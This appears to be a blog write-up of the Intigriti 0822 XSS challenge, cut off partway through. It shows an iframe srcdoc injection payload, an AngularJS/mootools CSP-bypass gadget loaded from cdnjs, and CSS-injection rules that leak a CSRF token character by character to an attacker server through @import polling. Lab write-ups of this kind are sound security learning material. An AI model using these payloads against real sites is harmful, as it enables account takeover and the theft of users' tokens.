









- Link to the challenge: <https://challenge-0822.intigriti.io/>
- Link to authors: <https://twitter.com/BrunoModificato> <https://twitter.com/aszx87410>

Wow it's been a month since the last writeup. I was gonna continue pretending my blog didn't exist but I also didn't want to kill the blog off that quickly, so here's a quick writeup on another intigriti challenge I solved sometime this month.

This challenge took me around 6 full days spread over a period of a month to solve. I also folded midway and read the official solutions before reaching a solution for the challenge so I didn't really solve the challenge myself. However, this was one of the hardest CTF challenges I have done and I learnt so much from this challenge that I figured I would write it up anyways. Here is my process of solving the challenge.

# Overview

When loading the landing page of the challenge, a user is prompted to enter a username into a form in order to continue.



Once the user enters their username, they are then directed to a page where they can enter a description, edit the page's color theme, or update their name.



Finally, once the user clicks the `preview` button, they are presented a page that contains the business card.



Here's a GIF that shows me clicking through all the pages in the challenge:



After clicking around, I started inspecting the javascript and the challenge source code (which was downloadable from a link in the challenge's footer) to look for bugs and solve the challenge.

# Abusing the card preview for XSS

After a quick glance over the javascript and the challenge's PHP source code, I saw some interesting input sanitization logic in the `preview.php` file:

```php{24-29}
<?php
  $name = strval($_POST['name']);
  $desc = strval($_POST['desc']);

  if (strlen($name) >= 20) {
    header("Location: app.php#msg=name too long");
    die();
  }

  $_SESSION['temp-name'] = $name;
  $_SESSION['temp-desc'] = $desc;

  require_once('csp.php');

  $dangerous_words = ['eval', 'setTimeout', 'setInterval', 'Function', 'constructor', 'proto', 'on', '%', '&', '#', '?', '\\'];

  foreach ($dangerous_words as $word) {
    if (stripos($desc, $word) !== false){
      header("Location: app.php#msg=dangerous word detected!");
      die();
    }
  }

  $name = htmlspecialchars($name);
  $desc = htmlspecialchars($desc);

  $desc = preg_replace('/(https?:\/\/www\.youtube\.com\/embed\/[^\s]*)/', '<iframe src="$1"></iframe>', $desc);

  $desc = preg_replace('/(https?:\/\/[^\s]*\.(png|jpg|gif))/', '', $desc);
  
?>
<!DOCTYPE html>
<html>
<body>
  <div class="container">
    <h1>Business Card Generator</h1>
    <div id="main" class="hide">
      <div class="buiness-card">
        <h2><?= $name ?></h2>
        <hr />
        <p>
          <?= $desc ?>
        </p>
      </div>
      ...
    </div>
    <div id="notice">
      <p><b>Please noted that this website is still in beta, use at your own risk.</b></p>
      <button id=showBtn>I got it</button>
    </div>
  </div>
  <?php require_once('tmpl-footer.php') ?>
  <script src="resources/preview.js"></script>
</body>
</html>
```

Before inserting our user input onto the page, the sanitization logic would first make sure that no words in the name and description match words contained in a blacklist. Then in the code lines highlighted above, the code would then HTML encode our input, replace any `https://youtube.com/embed/*` urls with an `iframe` to contain a youtube video, and any links that ended with `.png`, `.jpg`, and `.gif` with a `img` tag.

This sanitization logic kills any hope of us inserting a malicious HTML tag (such as `` or `<script>alert(1)</script>`) due to HTML encoding. However, we notice that the description is being modified twice by different regexes: first when changing youtube urls to iframes and second when changing image urls to img html elements.

This got me thinking: what if I input a value in the description such that it would be a youtube url and a image url? I spent some time testing random values that would match both `preg_replace` conditions and eventually found that inserting this payload:

```
https://www.youtube.com/embed/=''aaaa='you'foo='bar'fix=.png
```

would lead to the following HTML being appended to the page:

```html
<iframe src="&lt;img src=" https:="" www.youtube.com="" embed="" =''aaaa="you" foo="bar" fix=".png&quot;">"></iframe>
```

(ignore the bad word I was tilted)

I noticed that the `foo=bar` that I added to the input got transformed into an attribute on the iframe. This means I now could insert an iframe onto the page with any attributes I wanted. I couldn't use event handler attributes such as `onfocus` or `onload` due to the sanitization filter blacklisting the `on` keyword, but I noticed that I could just use the iframe's `srcdoc` attribute to insert a script tag instead.

With the following payload:

```
https://www.youtube.com/embed/=''aaaa='you'srcdoc='<script>alert(1)</script>'fix=.png
```

I was able to load a script tag onto the page and trigger the CSP.



This meant that if I was able to bypass the CSP, I would get XSS.

## Bypassing the CSP

Here is the CSP for the page:

```
default-src 'self';
img-src http: https:;
style-src 'unsafe-inline' http: https:;
object-src 'none';
base-uri 'none';
font-src http: https:;
frame-src https://www.youtube.com/;
script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/;
```

As you can see in the script-src directive, javascript must either be loaded directly from the PHP source code or loaded from the `cdnjs.cloudflare.com` page. I immediately assumed I could load an angular.js script from the cloudflare CDN to bypass the CSP.

I started googling and trying random angular.js payloads I found on a test page, until I landed on this payload:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"></script>
<div ng-app>
  <input autofocus ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin)"/>
</div>
```

Inserting this payload in the `srcdoc` of the iframe:

```
https://www.youtube.com/embed/=''aaaa='you'type='submit'srcdoc='<script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"></script><div/ng-app><input/autofocus/ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin)"/>'fix=.png
```

pops an alert.



However, as you can see from the GIF, I had to click a button that said `I GOT IT` and hover my mouse over the generated input tag before the XSS actually popped. This was way too much user interaction to solve the challenge and I had no idea how to reduce the user interaction to get XSS.

I also had no idea how to get the user to view the preview page in the first place. Here is the request that you have to send to load the preview page in the first place:

```http
POST /challenge/preview.php HTTP/1.1
Host: challenge-0822.intigriti.io
Content-Type: application/x-www-form-urlencoded
Referer: https://challenge-0822.intigriti.io/challenge/app.php
Cookie: PHPSESSID=ohhl7voqttls5hujtncraaoev8

csrf-token=0ad97b2b6f1706082b5f5ece8f5e1708&name=herald11&desc=Hi%2C+nice+to+meet+you%21+It%27s+my+favorite+video%3A+https%3A%2F%2Fwww.youtube.com%2Fembed%2FdQw4w9WgXcQ
```

As you can see, there is a CSRF token that needs to be submitted with the request to view the preview. This CSRF token was tied to the `PHPSESSID` cookie so without sending the correct token in the request, the request would fail. I also had no idea how to get around this and at this point, I was stuck. I spent a while trying out random stuff until I eventually folded and started reading writeups online for this challenge.

## Improving the XSS

I read 3 writeups about this challenge.

- [Huli's writeup](https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/)
- [BrunoModificato's writeup](https://github.com/BrunoHalltari/CTF-Writeups/blob/master/https:/challenge-0822.intigriti.io/Readme.md)
- [Maple3142's writeup](https://blog.maple3142.net/2022/08/29/intigriti-0822-xss-challenge-writeup/)

Reading these writeups gave me the answer for the 2 problems I still needed to solve to complete this challenge:

1. My XSS vector doesn't fire without user interaction
2. I can't call the `/challenge/preview.php` endpoint without a valid CSRF token

For the first problem, it turns out I was supposed to find an XSS payload that would fire without the `ng-focus` event handler. This was because the CSS on the page would hide my payload in the description with a `display: none` CSS rule until the user clicked the `I GOT IT` button.

If this was the only restriction to this challenge, we could just copy paste payloads from online and one of them would probably work. However, this didn't work for me as most payloads I used got caught by a word blacklist in the `preview.php` file:

```php
<?php
...

  $dangerous_words = ['eval', 'setTimeout', 'setInterval', 'Function', 'constructor', 'proto', 'on', '%', '&', '#', '?', '\\'];

  foreach ($dangerous_words as $word) {
    if (stripos($desc, $word) !== false){
      header("Location: app.php#msg=dangerous word detected!");
      die();
    }
  }

...
?>
...
```

The payload that I was supposed to use should have looked something like this:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].empty.call().alert([].empty.call().document.domain)}}
</div>
```

I have no idea how I didn't google search up this payload when attempting to solve the challenge. I just searched for CSP bypass payloads and this exact payload appeared in random github files so many times. It's probably a good thing that I didn't find these payloads as it motivated me to read the explanations for how the payload worked, and understanding the payload was very interesting.

The payload above bypassed CSP by importing a certain version of mootools and angular.js. The idea behind this payload is that when you imported mootools, the prototype of the objects such as arrays and strings, would be modified to include a bunch of custom mootools defined functions. Some of these functions would return the `this` attribute under certain conditions.

This is important as when you use the `call` function with no arguments on functions that return `this`, you end up returning the `window` object.

```javascript
function x() {
  return this
}

console.log(x.call()) // window
```

This window object could then be used to access functions such as `alert` and attributes such as `document.domain`, allowing us to call `alert(document.domain)` using an angular template string in the payload above.

Huli actually has a blog post about using a script to find these types of payloads that combine various `cdnjs.cloudflare.com` libraries to achieve XSS with CSP bypass. The link is [here](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/).

After figuring out how the payload worked, I modified my iframe injection payload, inserted the payload into the preview description of the business card generator, and clicked the preview button.

```
https://www.youtube.com/embed/=''aaaa='you'type='submit'srcdoc='<script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"></script><script/src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script><div/ng-app>{{[].erase.call().alert([].erase.call().origin)}}</div>'fix=.png
```

This payload popped an alert without needing to click `I GOT IT` and focus the input tag, solving the problem of not being able to reduce user interaction when viewing the preview page.



However, I still needed to solve the problem of stealing the CSRF token from the user so that I could show the preview page to the user in the first place. To do that, the writeup explained that I would have to use CSS injection in order to steal the CSRF token.

## CSS injection

To obtain the CSRF token for the challenge, you had to use an HTML injection combined with CSS injection to exfiltrate the token. Here is the code of the page that was vulnerable to HTML injection by allowing user input in the `#msg` hash parameter of the URL to be displayed into the webpage via `innerHTML`:

```javascript{2-2,11-14,21-24}
function start() {
  const message = decodeURIComponent(location.hash.replace('#msg=', ''))
  if (!message.length) return
  const options = {}
  if (document.domain.match(/testing/)) {
    options['production'] = false
  } else {
    options['production'] = true
    options['timeout'] = () => Math.random()*300 + 300
  }
  showMessage(message, {
    container: document.querySelector('body'),
    ...options
  })
}

function showMessage(message, options) {
  const getTimeout = options.timeout || (() => 500)
  const container = options.container || document.querySelector('body')

  const modal = document.createElement('div')
  modal.id = 'messageModal'
  modal.innerHTML = DOMPurify.sanitize(message)
  container.appendChild(modal)
  history.replaceState(null, null, ' ')

  setTimeout(() => {
    container.removeChild(modal)
  }, getTimeout())
}
```

and you had to use this HTML injection vector to leak a value in a meta tag containing the CSRF token in the `head` section of the page's HTML:

```html
<head>
  <meta charset="UTF-8">
  ...
  <meta name="csrf-token" content="ee350fa48a12b01dfe497251b8c01022">  
</head>
```

Unfortunately, there was no XSS vector here as our user input was sanitized via DOM purify, which means CSS injection was the only option.

Prior to this challenge, I had never touched CSS injection in my life. The writeups I read on this challenge did not explain how to actually do CSS injection or show code for a CSS injection POC, so I headed off to google for a way to get CSS injection working.

Before I show how I used CSS injection to steal the CSRF token, Let me first show you how I came up with a working CSS injection POC and how CSS injection works. We will use the following page to demonstrate CSS injection:

```html
<!doctype html>
<html lang="en">
  <body>
    <input id="csrf-token" type="text" value="supers3cretva1ue" />
    <div id="inject"></div>
  </body>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.3.6/purify.min.js"></script>
  <script>
    let params = new URLSearchParams(document.location.search);
    let payload = params.get("payload");
    document.getElementById("inject").innerHTML = DOMPurify.sanitize(payload);
  </script>
</html>
```

The page allows us to inject HTML into the page via a `innerHTML` sink and has a `csrf-token` value. Let's imagine that the `csrf-token` value is unique to the user that views the page and that we are trying to leak it through a one-click exfiltration attack. We cannot use any XSS payloads, as we are sanitizing user input that is passed in using DOM purify. Luckily, `<style>` tags can pass through the DOM purify filter, allowing us to inject any CSS rules we want into the page. For example, we can inject a rule such as:

```html
<style>
input#csrf-token { background: url("http://localhost:3000") }
</style>
```

This style sends a HTTP request to `http://localhost:3000` if the `input#csrf-token` style rule matches something.

However, doing this doesn't leak us the value, so lets go a bit further with this rule. [According to the MDN documentation](https://developer.mozilla.org/en-US/docs/Web/CSS/Reference/Selectors/Attribute_selectors#attrvalue_4), we can also define CSS rules to only match a tag if an attribute of the tag starts with a substring of our choosing. Let's update the CSS rule above to only select the input if the first letter of the `value` attribute matches `s`:

```html
<style>
input#csrf-token[value^="s"] { background: url("http://localhost:3000") }
</style>
```

This in turn causes the HTTP request to our server only to fire if the first letter of the `csrf-token` value is `s`, leaking part of the `csrf-token` back to our attacker server. We can take this even further to figure out the first character no matter what it is with the following CSS rule:

```html
<style>
  input#csrf-token[value^="1"] { background: url("http://localhost:3000/leak/1"); }
  input#csrf-token[value^="2"] { background: url("http://localhost:3000/leak/2"); }
  input#csrf-token[value^="3"] { background: url("http://localhost:3000/leak/3"); }
  ...
  input#csrf-token[value^="0"] { background: url("http://localhost:3000/leak/0"); }
  input#csrf-token[value^="A"] { background: url("http://localhost:3000/leak/A"); }
  input#csrf-token[value^="B"] { background: url("http://localhost:3000/leak/B"); }
  input#csrf-token[value^="C"] { background: url("http://localhost:3000/leak/C"); }
  ...
  input#csrf-token[value^="Z"] { background: url("http://localhost:3000/leak/Z"); }
  input#csrf-token[value^="a"] { background: url("http://localhost:3000/leak/a"); }
  input#csrf-token[value^="b"] { background: url("http://localhost:3000/leak/b"); }
  input#csrf-token[value^="c"] { background: url("http://localhost:3000/leak/c"); }
  ...
  input#csrf-token[value^="z"] { background: url("http://localhost:3000/leak/z"); }
</style>
```

With this style rule, we send a HTTP request back to our server the correct first letter of the `csrf-token` value, no matter what the first letter is. Unfortunately, we still can't leak the full value of the `csrf-token` with only this payload as if we tried generating every combination of the possible value, we would be loading `62 ^ len(csrf-token)` styles into our browser which would probably cause our PC to explode. This brings us to our final form of the CSS injection payload that steals the entire `csrf-token` value which involves abusing CSS imports. We first start by inputting the following payload:

```html
<style>@import 'http://localhost:3000/polling/0';</style>
<style>@import 'http://localhost:3000/polling/1';</style>
<style>@import 'http://localhost:3000/polling/2';</style>
<style>@import 'http://localhost:3000/polling/3';</style>
<style>@import 'http://localhost:3000/polling/4';</style>
<style>@import 'http://localhost:3000/polling/5';</style>
<style>@import 'http://localhost:3000/polling/6';</style>
<style>@import 'http://localhost:3000/polling/7';</style>
<style>@import 'http://localhost:3000/polling/8';</style>
<style>@import 'http://localhost:3000/polling/9';</style>
<style>@import 'http://localhost:3000/polling/10';</style>
<style>@import 'http://localhost:3000/polling/11';</style>
<style>@import 'http://localhost:3000/polling/12';</style>
<style>@import 'http://localhost:3000/polling/13';</style>
<style>@import 'http://localhost:3000/polling/14';</style>
<style>@import 'http://localhost:3000/polling/15';</style>
```

We have our injected CSS payload import 16 (the length of the `csrf-token` value) different CSS rules from our remote server. However, in our server, we only allow the first import, `http://localhost:3000/polling/0`, to return a response, and intentionally cause the other 15 rules to hang. The `http://localhost:3000/polling/0` rule should return the following CSS:

```css
input#csrf-token[value^="1"] { background: url("http://localhost:3000/leak/1"); }
input#csrf-token[value^="2"] { background: url("http://localhost:3000/leak/2"); }
input#csrf-token[value^="3"] { background: url("http://localhost:3000/leak/3"); }
...
input#csrf-token[value^="0"] { background: url("http://localhost:3000/leak/0"); }
input#csrf-token[value^="A"] { background: url("http://localhost:3000/leak/A"); }
input#csrf-token[value^="B"] { background: url("http://localhost:3000/leak/B"); }
input#csrf-token[value^="C"] { background: url("http://localhost:3000/leak/C"); }
...
